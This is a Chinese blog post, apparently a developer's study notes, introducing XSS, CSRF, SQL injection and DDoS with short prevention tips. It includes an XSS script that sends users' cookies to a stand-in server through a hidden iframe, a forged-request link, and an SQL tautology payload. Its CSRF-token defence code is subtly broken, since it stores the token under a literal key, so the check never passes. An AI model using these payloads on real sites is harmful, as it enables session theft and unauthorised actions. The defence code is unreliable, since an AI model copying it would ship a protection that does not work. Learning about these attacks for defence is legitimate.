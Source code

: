 ```yaml
---
layout: post
title:  "网络安全"
date:   2018-12-25
tags: 安全
---
```


# 网络安全

## XSS：跨站脚本（Cross-site scripting）
XSS 全称“跨站脚本”，是注入攻击的一种。其特点是不对服务器端造成任何伤害，而是通过一些正常的站内交互途径，例如发布评论，提交含有 JavaScript 的内容文本。这时服务器端如果没有过滤或转义掉这些脚本，作为内容发布到了页面上，其他用户访问这个页面的时候就会运行这些脚本。

### 可能只是简单的恶作剧
```js
while (true) {
    alert("你关不掉我~");
}
```
### 也可以是盗号或者其他未授权的操作
```html
<!-- 用 <script type="text/javascript"></script> 包起来放在评论中 -->
<script type="text/javascript">
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://localhost:2000/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
</script> 
```
### 预防
不要相信用户提交的内容，对提交的字符串进行过滤。

## CSRF：跨站请求伪造（Cross-site request forgery）
CSRF 的全称是“跨站请求伪造”，而 XSS 的全称是“跨站脚本”。看起来有点相似，它们都是属于跨站攻击——不攻击服务器端而攻击正常访问网站的用户，但前面说了，它们的攻击类型是不同维度上的分 类。CSRF 顾名思义，是伪造请求，冒充用户在站内的正常操作。我们知道，绝大多数网站是通过 cookie 等方式辨识用户身份（包括使用服务器端 Session 的网站，因为 Session ID 也是大多保存在 cookie 里面的），再予以授权的。所以要伪造用户的正常操作，最好的方法是通过 XSS 或链接欺骗等途径，让用户在本机（即拥有身份 cookie 的浏览器端）发起用户所不知道的请求。
严格意义上来说，CSRF 不能分类为注入攻击，因为 CSRF 的实现途径远远不止 XSS 注入这一条。通过 XSS 来实现 CSRF 易如反掌，但对于设计不佳的网站，一条正常的链接都能造成 CSRF。
## 例如
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>
<a href="http://localhost:2000/topic/delete?id=1">
    点击领取金币
</a>
<img src="http://localhost:2000/topic/delete?id=1">
</body>
</html>
```
当用户访问页面就会用用户的账号进行操作
### 预防
设置令牌
```python

csrf_tokens = dict()

@main.route("/")
def index():
    # board_id = 2
    board_id = int(request.args.get('board_id', -1))
    if board_id == -1:
        ms = Topic.all()
    else:
        ms = Topic.find_all(board_id=board_id)
    token = str(uuid.uuid4())
    u = current_user()
    csrf_tokens['token'] = u.id
    bs = Board.all()
    return render_template("topic/index.html", ms=ms, token=token, bs=bs)

@main.route("/delete")
def delete():
    id = int(request.args.get('id'))
    token = request.args.get('token')
    u = current_user()
    # 判断 token 是否是我们给的
    if token in csrf_tokens and csrf_tokens[token] == u.id:
        csrf_tokens.pop(token)
        if u is not None:
            print('删除 topic 用户是', u, id)
            Topic.delete(id)
            return redirect(url_for('.index'))
        else:
            abort(404)
    else:
        abort(403)

```

```js
<a class="topic_title" href="{{ url_for('topic.delete', id=t.id, token=token) }}">
    删除
</a>
```

## SQL注入
所谓SQL注入，就是通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。具体来说，它是利用现有应用程序，将（恶意的）SQL命令注入到后台数据库引擎执行的能力，它可以通过在Web表单中输入（恶意）SQL语句得到一个存在安全漏洞的网站上的数据库，而不是按照设计者意图去执行SQL语句。
### 例如
```python
def select(conn):
    # 一个注入的用户名
    usr = 'abc" or "1"="1'
    pwd = 'abc'
    sql = '''
    SELECT
        id, username, email
    FROM
        users
    WHERE
        username="{}" and password="{}"
    '''.format(usr, pwd)
    # 读取数据
    cursor = conn.execute(sql)
    print('所有数据', list(cursor))
    # for row in cursor:
    #     print(row)
```
### 预防
永远不要信任用户的输入，对用户的输入进行校验，不要使用动态拼装sql。

## DDOS攻击
DDOS 里面的 DOS 是 denial of service（停止服务）的缩写，表示这种攻击的目的，就是使得服务中断。最前面的那个 D 是 distributed （分布式），表示攻击不是来自一个地方，而是来自四面八方，因此更难防。
举例来说：应该类似攻击餐馆门口的前台排号机（Gateway），很少真的过去消费。300个人混在30个真实客户里面，然后取完号（Token）就走，过了号继续取号，前台每次都必须叫三遍这个号才能过号，结果就是想消费的客户一直在等待，前台一直忙着叫号和过号。

### 预防
- 专用硬件，Web 服务器的前面可以架设硬件防火墙，专门过滤请求。
- 本机防火墙，操作系统都带有软件防火墙，Linux 服务器一般使用 iptables。
- Web 服务器， 如：nginx，Apache可以过滤请求

